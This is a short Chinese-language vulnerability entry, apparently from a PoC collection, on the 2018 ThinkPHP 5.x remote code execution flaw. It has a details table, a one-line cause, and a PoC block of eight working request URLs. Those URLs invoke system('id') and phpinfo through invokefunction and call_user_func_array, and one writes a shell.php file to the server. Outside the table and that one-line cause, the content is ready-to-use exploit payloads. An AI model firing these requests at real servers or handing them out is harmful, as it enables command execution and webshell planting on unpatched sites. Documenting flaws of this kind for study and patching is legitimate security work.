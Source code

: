 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|thinkphp5框架缺陷导致远程代码执行|2018-10-10|unknown|[http://www.thinkphp.cn/](http://www.thinkphp.cn/) | [下载连接](http://www.thinkphp.cn/down.html) |5.x < 5.1.31, <= 5.0.23| [详情](https://mp.weixin.qq.com/s/oWzDIIjJS2cwjb4rzOM4DQ)|  

#### 漏洞概述  

> 由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞   
> 
### poc

```html
http://192.168.99.98:7878/?s=index/\think\Request/input&filter=phpinfo&data=1
http://192.168.99.98:7878/?s=index/\think\Request/input&filter=system&data=id
http://192.168.99.98:7878/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
http://192.168.99.98:7878/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
http://192.168.99.98:7878/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
http://192.168.99.98:7878/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
http://192.168.99.98:7878/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
http://192.168.99.98:7878/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```